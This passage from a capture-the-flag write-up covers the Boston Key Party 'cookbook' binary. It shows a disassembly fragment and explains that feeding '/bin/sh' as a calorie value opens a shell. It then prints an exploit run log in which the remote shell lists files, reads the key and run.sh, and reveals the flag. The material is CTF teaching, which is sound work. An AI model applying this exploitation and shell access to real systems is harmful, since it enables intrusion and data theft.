 ```assembly
.text:08048F8E 83 C4 10              add     esp, 10h
.text:08048F91 89 C2                 mov     edx, eax
.text:08048F93 8B 45 DC              mov     eax, [ebp+var_24]
.text:08048F96 01 D0                 add     eax, edx
.text:08048F98 C6 00 00              mov     byte ptr [eax], 0
.text:08048F9B 83 EC 0C              sub     esp, 0Ch
.text:08048F9E FF 75 DC              push    [ebp+var_24]                ; nptr
.text:08048FA1 E8 3A F6 FF FF        call    _atoi
.text:08048FA6 83 C4 10              add     esp, 10h
.text:08048FA9 89 45 E0              mov     [ebp+var_20], eax
.text:08048FAC A1 9C D0 04 08        mov     eax, dword ptr ds:TEMP_INGR_804D09C
.text:08048FB1 8B 55 E0              mov     edx, [ebp+var_20]
.text:08048FB4 89 10                 mov     [eax], edx
.text:08048FB6 EB 10                 jmp     short loc_8048FC8
```
However instead of giving the number of calories we'll give "/bin/sh", and we'll end up
with an open shell. We read "key" file and after a long time we get the flag:
**BKPCTF{hey_my_grill_doesnt_work_here}**

```

root@nogirl:~/ctf/bostonkeyparty# ./cookbook_expl.py 
    [..... TRUNCATED FOR BREVITY .....]
    ----------------------------------------------------------------
    Received:

    Sending:  /bin/sh
     *** Opening Shell *** 
    whoami
        nobody
    ls -la
        total 1816
        drwxr-xr-x 2 cooking-manager cooking-manager    4096 Mar  5 01:38 .
        drwxr-xr-x 3 root            root               4096 Mar  4 03:51 ..
        -rw-r--r-- 1 cooking-manager cooking-manager     220 Mar  4 03:51 .bash_logout
        -rw-r--r-- 1 cooking-manager cooking-manager    3771 Mar  4 03:51 .bashrc
        -rw-r--r-- 1 cooking-manager cooking-manager     675 Mar  4 03:51 .profile
        -rwxr-xr-x 1 root            root              17936 Mar  4 04:05 cookbook
        -rw-r--r-- 1 root            root                 38 Mar  5 01:38 key
        -rwxrwxr-x 1 cooking-manager cooking-manager 1807496 Mar  4 04:10 libc.so.6
        -rwxr-xr-x 1 root            root                136 Mar  4 23:46 run.sh
    cat key
        BKPCTF{hey_my_grill_doesnt_work_here}
    cat run.sh
        #!/bin/bash
        socat TCP-LISTEN:5000,fork,reuseaddr,su=nobody SYSTEM:"timeout 60 LD_PRELOAD=/home/cooking-manager/libc.so.6 ./cookbook $1"
    exit
    *** Connection closed by remote host ***
```
___
